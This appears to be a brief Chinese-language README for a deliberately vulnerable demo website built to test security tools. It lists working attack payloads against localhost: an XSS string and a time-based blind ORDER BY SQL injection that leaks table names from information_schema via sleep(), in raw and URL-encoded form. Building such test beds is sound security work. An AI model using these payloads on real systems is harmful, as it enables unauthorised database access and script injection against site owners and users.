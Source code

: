 创建次仓库是为了测试安全工具开发而写的存在漏洞的demo网站

payload:

SQL注入支持json，post，get传参where注入

xss

http://127.0.0.1/xss.php?name=\&age=-alert(1)//

order by注入

select * from user ORDER BY id,if((select (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=(SELECT DATABASE()) limit 1),1,1)='u')),sleep(1),0)

http://127.0.0.1/orderby.php?orderby=,if((select%20(SUBSTR((SELECT%20table_name%20FROM%20information_schema.TABLES%20WHERE%20table_schema=(SELECT%20DATABASE())%20limit%201),1,1)=%27u%27)),sleep(1),0)

